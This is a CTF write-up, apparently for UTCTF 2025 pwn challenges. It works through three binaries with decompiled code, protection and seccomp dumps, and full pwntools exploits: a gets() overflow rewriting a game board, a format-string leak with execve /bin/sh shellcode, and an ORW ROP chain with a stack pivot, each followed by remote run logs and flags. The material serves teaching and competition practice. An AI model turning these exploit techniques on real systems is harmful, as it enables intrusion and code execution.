




## Tic Tac Toe

### Challenge Description



### Reverse Engineering

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rsi
  __int64 v4; // rsi
  __int64 v5; // rsi
  __int64 v6; // rsi
  char spot4[2]; // [rsp+3h] [rbp-4Dh] BYREF
  char spot3[2]; // [rsp+5h] [rbp-4Bh] BYREF
  char spot2[2]; // [rsp+7h] [rbp-49h] BYREF
  char spot[2]; // [rsp+9h] [rbp-47h] BYREF
  char playerType[2]; // [rsp+Bh] [rbp-45h] BYREF
  char xo[3]; // [rsp+Dh] [rbp-43h] BYREF
  int table[9]; // [rsp+10h] [rbp-40h] BYREF
  int idx4; // [rsp+38h] [rbp-18h]
  int idx3; // [rsp+3Ch] [rbp-14h]
  int idx2; // [rsp+40h] [rbp-10h]
  int idx; // [rsp+44h] [rbp-Ch]
  int playerWin; // [rsp+48h] [rbp-8h]
  int cpuWin; // [rsp+4Ch] [rbp-4h]

  BYTE1(table[0]) = 0;
  HIWORD(table[0]) = 0;
  memset(&table[1], 0, 32);
  strcpy(xo, " xo");
  cpuWin = 0;
  playerWin = 0;
  printf("Choose x or o: ");
  gets(playerType, argv);
  if ( playerType[0] == 'x' )
  {
    qmemcpy(&xo[1], "ox", 2);
  }
  else if ( playerType[0] != 'o' )
  {
    puts("Unknown option");
    exit(0);
  }
  table[0] = 1;
  puts("Current board state: ");
  v3 = (unsigned int)xo[table[0]];
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    v3,
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  while ( 1 )
  {
    printf("Enter 1-9 to select a spot: ");
    gets(spot, v3);
    if ( !table[spot[0] - 49] )
      break;
    puts("Invalid spot!");
  }
  table[spot[0] - 49] = 2;
  idx = spot[0] - 49;
  puts("Current board state: ");
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    (unsigned int)xo[table[0]],
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  if ( idx > 2 )
  {
    if ( idx <= 6 )
    {
      if ( idx == 5 )
        table[4] = 1;
      else
        table[1] = 1;
    }
    else
    {
      table[2] = 1;
    }
  }
  else
  {
    table[3] = 1;
  }
  puts("Current board state: ");
  v4 = (unsigned int)xo[table[0]];
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    v4,
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  while ( 1 )
  {
    printf("Enter 1-9 to select a spot: ");
    gets(spot2, v4);
    if ( !table[spot2[0] - 49] )
      break;
    puts("Invalid spot!");
  }
  table[spot2[0] - 49] = 2;
  idx2 = spot2[0] - 49;
  puts("Current board state: ");
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    (unsigned int)xo[table[0]],
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  if ( idx > 2 )
  {
    if ( idx <= 6 )
    {
      if ( idx == 5 )
      {
        if ( idx2 != 8 )
        {
          table[8] = 1;
          cpuWin = 1;
        }
      }
      else if ( idx2 != 2 )
      {
        table[2] = 1;
        cpuWin = 1;
      }
    }
    else if ( idx2 != 1 )
    {
      table[1] = 1;
      cpuWin = 1;
    }
  }
  else if ( idx2 != 6 )
  {
    table[6] = 1;
    cpuWin = 1;
  }
  if ( cpuWin )
  {
    puts("Current board state: ");
    printf(
      "%c%c%c\n%c%c%c\n%c%c%c\n",
      (unsigned int)xo[table[0]],
      (unsigned int)xo[table[1]],
      (unsigned int)xo[table[2]],
      (unsigned int)xo[table[3]],
      (unsigned int)xo[table[4]],
      (unsigned int)xo[table[5]],
      (unsigned int)xo[table[6]],
      (unsigned int)xo[table[7]],
      (unsigned int)xo[table[8]]);
    puts("CPU wins");
    exit(0);
  }
  if ( idx <= 3 || idx == 6 || idx == 7 )
  {
    table[4] = 1;
  }
  else if ( idx == 5 )
  {
    table[2] = 1;
  }
  else
  {
    table[6] = 1;
  }
  puts("Current board state: ");
  v5 = (unsigned int)xo[table[0]];
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    v5,
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  while ( 1 )
  {
    printf("Enter 1-9 to select a spot: ");
    gets(spot3, v5);
    if ( !table[spot3[0] - 49] )
      break;
    puts("Invalid spot!");
  }
  table[spot3[0] - 49] = 2;
  idx3 = spot3[0] - 49;
  puts("Current board state: ");
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    (unsigned int)xo[table[0]],
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  switch ( idx )
  {
    case 1:
    case 2:
      if ( idx3 == 5 )
        table[8] = 1;
      else
        table[5] = 1;
      cpuWin = 1;
      break;
    case 3:
    case 6:
      if ( idx3 == 7 )
        table[8] = 1;
      else
        table[7] = 1;
      cpuWin = 1;
      break;
    case 5:
      if ( idx3 == 1 )
        table[6] = 1;
      else
        table[1] = 1;
      cpuWin = 1;
      break;
    case 7:
      if ( idx3 == 6 )
        table[8] = 1;
      else
        table[6] = 1;
      cpuWin = 1;
      break;
    case 8:
      if ( idx3 == 3 )
        table[4] = 1;
      else
        table[3] = 1;
      cpuWin = 1;
      break;
    default:
      if ( idx3 == 3 )
      {
        table[5] = 1;
      }
      else
      {
        table[3] = 1;
        cpuWin = 1;
      }
      break;
  }
  puts("Current board state: ");
  v6 = (unsigned int)xo[table[0]];
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    v6,
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  if ( cpuWin )
  {
    puts("CPU wins");
    exit(0);
  }
  while ( 1 )
  {
    printf("Enter 1-9 to select a spot: ");
    gets(spot4, v6);
    if ( !table[spot4[0] - 49] )
      break;
    puts("Invalid spot!");
  }
  table[spot4[0] - 49] = 2;
  idx4 = spot4[0] - 49;
  puts("Current board state: ");
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    (unsigned int)xo[table[0]],
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  if ( idx4 == 7 )
    table[8] = 1;
  else
    table[7] = 1;
  puts("Current board state: ");
  printf(
    "%c%c%c\n%c%c%c\n%c%c%c\n",
    (unsigned int)xo[table[0]],
    (unsigned int)xo[table[1]],
    (unsigned int)xo[table[2]],
    (unsigned int)xo[table[3]],
    (unsigned int)xo[table[4]],
    (unsigned int)xo[table[5]],
    (unsigned int)xo[table[6]],
    (unsigned int)xo[table[7]],
    (unsigned int)xo[table[8]]);
  if ( cpuWin )
  {
    puts("CPU wins");
  }
  else if ( playerWin )
  {
    puts("Player wins");
    get_flag();
  }
  else
  {
    puts("Tie");
  }
  exit(0);
}
```

The above program simulates the game of Tic Tac Toe, and the player will play against the CPU. The special thing about this program is that it uses the `gets` function to get the data we enter, which can cause a `Buffer Overflow`. So with this error, we will be allowed to change any data on the stack we want. Since we cannot win against the CPU (we can only draw or lose somehow), we will find a way to interfere with the logic to make a move

And based on the program we can see it stores our moves in a variable and I renamed it to `table`. And the corresponding values ​​that will be stored inside the `table` array are:

- `0` means nothing
- `1` is the CPU's move
- `2` is the player's move

In addition, by exploiting the `buffer overflow`, we can write extra data beyond the memory set for the `table` array. This gives us the ability to change any number in the `table`. For example, we can change a cell from a CPU move (1) to a player move (2) or even to an empty cell (0). Since the program does not check how much data we enter with the `gets` function, we can plan our input carefully to change the game state in our favor. This simple trick allows us to interfere with the game logic and create a win condition that was not originally possible.

And the program will check if someone wins after each move by looking at the `table` array. It searches for three of the same numbers in a row by checking the rows, columns, and both diagonals. If three cells in any of these lines have the same number, the program declares that side as the winner. This method is simple and clear because it directly shows whether a move leads to a win or not. The rules used are the basic rules of Tic Tac Toe, and by checking the table in this way, the game stays true to its original design. However, if we use a buffer overflow to change the values in the table, we can trick the program into thinking we have three in a row, even if we did not make the moves normally. This approach ultimately gives us a way to win the game.

### Exploit Development

The idea is that all we need to do is change the value of `table`, to direct the move of `CPU`. Here we will put the payload at spot3 (`rsp+0x5`) so the offsets here must be subtracted by 5 to align it to the correct position.

```py
#!/usr/bin/env python3
from pwn import *
import sys

# context.log_level = "debug"
exe = context.binary = ELF("./tictactoe", checksec=False)

def init(argv=[], *a, **kw):
    stdbuf_cmd = ['/bin/stdbuf', '-o0', exe.path]

    if args.GDB:
        return gdb.debug(stdbuf_cmd + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process(stdbuf_cmd + argv, *a, **kw)

gdbscript = '''
b *0x401234

c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

def table(table: list):
    return b''.join(p32(x) for x in table)

def exploit():

    p.sendlineafter(b'o: ', b'x')

    p.sendlineafter(b' spot: ', b'2')

    p.sendlineafter(b' spot: ', b'7')

    payload = flat({
        0: b'4',
        0xd - 5: b' ox',
        0x10 - 5: table([2, 2, 2, 0, 2, 0, 2]),
        # 0x10 - 5: table([0] * 7),
        0x48 - 5: b'\x01'               # win codition
    }, filler=b'\0')

    print(payload)
    p.sendlineafter(b' spot: ', payload)

    p.sendlineafter(b' spot: ', b'9')

    p.interactive()

if __name__ == "__main__":
    exploit()
```

### Get flag

```sh
┌─ [23:38] ❄ alter in ~/CTFs/2025/UTCTF/pwn/TicTacToe
└ ϟ ./xpl.py REMOTE challenge.utctf.live 7114
[+] Opening connection to challenge.utctf.live on port 7114: Done
b'4\x00\x00\x00\x00\x00\x00\x00 ox\x02\x00\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
[*] Switching to interactive mode
Current board state:
xxx
xxo
x x
Current board state:
xxx
xxo
xox
Player wins
$ cat flag*
utflag{!pr0_g4m3r_4l3rt!}
```
## RETirement Plan

### Challenge Description



### Reverse Engineering

```sh
└ ϟ checksec shellcode                                                                                                                                                                                                         took 88.630s
[*] '/home/alter/CTFs/2025/UTCTF/pwn/RETirementPlan/shellcode'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char format[48]; // [rsp+0h] [rbp-40h] BYREF
  char *format_1; // [rsp+30h] [rbp-10h]
  int i; // [rsp+3Ch] [rbp-4h]

  format_1 = format;
  puts("<Insert prompt here>: ");
  gets(format, argv);
  for ( i = 0; format_1[i]; ++i )
  {
    if ( ((*__ctype_b_loc())[format_1[i]] & 0x100) != 0 )
    {
      format_1[i] = -101 - format_1[i];
    }
    else if ( ((*__ctype_b_loc())[format_1[i]] & 0x200) != 0 )
    {
      format_1[i] = -37 - format_1[i];
    }
  }
  printf(format);
  return 0;
}
```

The program pretty simple, just get our input by using `gets` and our input goes through each character in the string `format_1`. For every character, it checks if it is an uppercase or a lowercase letter. If the character is uppercase, the code changes its value to -101 minus its original value. If the character is lowercase, it changes its value to -37 minus its original value. In short, it transforms each letter into a new negative value based on whether it is uppercase or lowercase. And then it print our input.

### Exploit Development

As we can see we have 2 bugs here, `Buffer Overflow` and `Format String Bug`, our problem is that for loop, it'll encrypt our input, so what we need to do with it? If we look carefully at the disassembly we can see



The program first moves our input pointer into the local variable at `rbp-0x10`. This location (`rbp-0x10`) is then used by the for loop to read each character of our input. During that loop, the code applies its `encryption/decryption` logic by changing each character’s value based on whether it is uppercase or lowercase. As a result, our input is modified before it is used in the program, so we need to be aware that our original string will not remain the same once it passes through this loop.

And because that pointer is on the stack so we can modified it point to some `rw-` section so that our input won't be change by that loop. And what we need to do after that is just leak the stack address, put `shellcode` and calculate the address to return to it.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
# import ctypes
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./shellcode_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''

b *0x000000000040063c
b *0x0000000000400724
c
c
'''.format(**locals())
p = init()

# ==================== EXPLOIT ====================


def exploit():

    rop = ROP(exe)
    p.recvuntil(b'<Insert prompt here>: \n')

    payload = flat({
        0:'%23$p',
        0x30: exe.bss(0x100),
        0x40: 0},
        rop.ret.address,
        exe.sym.main,
        filler=b'\0')

    p.sendline(payload)


    stack_leak = int(p.recvuntil(b'<Insert prompt here>:', drop=True), 16)
    current_rsp = stack_leak - 0x110
    log.info('Stack leak: ' + hex(stack_leak))
    log.info('current_rsp: ' + hex(current_rsp))


    payload = flat({
        0: b'\0',
        0x30: exe.bss(0x100),
        0x40: 0},
        current_rsp + 0x50,
        amd64_execve_bin_sh,
        filler=b'\0'
    )

    print(disasm(amd64_execve_bin_sh))

    p.sendline(payload)

    p.sendline(b'id; cat /flag*')

    p.interactive()

if __name__ == '__main__':
    exploit()
```

**P/s: The offset in remote might be different from local so we need to calculate and adjust your payload if your leak is wrong**

### Get flag

```sh
└ ϟ ./xpl.py REMOTE challenge.utctf.live 9009
[*] '/home/alter/CTFs/2025/UTCTF/pwn/RETirementPlan/libc-2.23.so'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to challenge.utctf.live on port 9009: Done
[*] Loaded 14 cached gadgets for './shellcode_patched'
/home/alter/CTFs/2025/UTCTF/pwn/RETirementPlan/./xpl.py:45: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload = flat({
[*] Stack leak: 0x7ffe2a455ae0
[*] current_rsp: 0x7ffe2a4559d0
   0:   31 c0                   xor    eax, eax
   2:   48 bb d1 9d 96 91 d0 8c 97 ff   movabs rbx, 0xff978cd091969dd1
   c:   48 f7 db                neg    rbx
   f:   53                      push   rbx
  10:   54                      push   rsp
  11:   5f                      pop    rdi
  12:   99                      cdq
  13:   52                      push   rdx
  14:   57                      push   rdi
  15:   54                      push   rsp
  16:   5e                      pop    rsi
  17:   b0 3b                   mov    al, 0x3b
  19:   0f 05                   syscall
[*] Switching to interactive mode

uid=1000(shell) gid=1000(shell) groups=1000(shell)
utflag{i_should_be_doing_ccdc_rn}
```

## secbof

### Challenge Description



### Reverse Engineering

```sh
[*] '/home/alter/CTFs/2025/UTCTF/pwn/secbof/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // r8d
  int v6; // r9d
  int v7; // edx
  int v8; // ecx
  int v9; // r8d
  int v10; // r9d
  char v12[128]; // [rsp+0h] [rbp-80h] BYREF

  setvbuf(stdout, 0LL, 2LL, 0LL);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  install_filter();
  printf((unsigned int)"Input> ", 0, v3, v4, v5, v6, v12[0]);
  read(0LL, v12, 1000LL);
  printf((unsigned int)"Flag: ", (unsigned int)v12, v7, v8, v9, v10, v12[0]);
  return 0;
}
```

The program is simple just get our input using `read` and we have `Buffer Overflow` here, and we see that it have `install_filter()` function here so maybe it has `seccomp rule` (we need to check it)

```sh
└ ϟ seccomp-tools dump ./chal                                                                                                                                                                                                  took 82.295s
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

### Exploit Development

And yep, the `seccomp` just allow `orw` syscall, and because this is a static binary so we have all gadgets we need here.

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chal_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 9000)
        sleep(1)
        pid = 58845
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''


b *main+145
c
# c
# c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================

'''
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
'''

def exploit():

    offset = 0x88
    rw_section = 0x4c9000
    read_gadget = 0x40197E
    syscall_ret = 0x41ae16   # syscall; ret;
    pop_rdi = 0x40204f       # pop rdi; ret;
    pop_rsi = 0x40a0be       # pop rsi; ret
    pop_rax = 0x450507       # pop rax; ret;
    pop_rdx = 0x48630b       # pop rdx; pop rbx; ret;
    mov_rdi = 0x433a83       # mov qword ptr [rdi], rdx; ret

    payload = flat({

        offset - 8: [
            rw_section - 0x200 + 0x80,                              # saved rbp 1
            read_gadget,                                            # saved rip 1
        ]
    })

    input("1st")
    sleep(0.5)
    p.sendlineafter(b'> ', payload)

    # Start at 0x4c8e00
    payload = b'./flag.txt\x00'.ljust(offset - 8, b'\x00')
    payload += p64(rw_section - 0x150 + 0x80)                       # saved rbp 2
    payload += p64(read_gadget)                                     # saved rip 2

    input("2nd")
    sleep(0.5)
    p.send(payload)

    payload = flat({

        offset - 8: [

            rw_section,

            # open(0x4c8e00, 0, 0)
            pop_rdi,
            0x4c8e00,
            pop_rsi,
            0,
            pop_rdx,
            0,
            0,
            pop_rax,
            2,
            syscall_ret,

            # read(5, rw_section - 0x600, 0x50)
            pop_rdi,
            5,
            pop_rsi,
            rw_section - 0x600,
            pop_rdx,
            0x50,
            0,
            pop_rax,
            0,
            syscall_ret,

            # write
            pop_rdi,
            1,
            pop_rax,
            1,
            syscall_ret
        ]

    })

    input("3rd")
    sleep(0.5)
    p.send(payload)

    p.interactive()

if __name__ == '__main__':
    exploit()
```

My exploit is pretty complicated because I couldn't find `mov qword ptr [rdi], rdx; ret` gadget the first time I did it... So I do pivot

### Get flag

```sh
┌─ [0:03] ❄ alter in ~/CTFs/2025/UTCTF/pwn/secbof ⚲
└ ϟ ./xpl.py REMOTE challenge.utctf.live 5141
[+] Opening connection to challenge.utctf.live on port 5141: Done
1st
2nd
3rd
[*] Switching to interactive mode
Flag: Flag: Flag: utflag{r0p_with_4_littl3_catch}
```
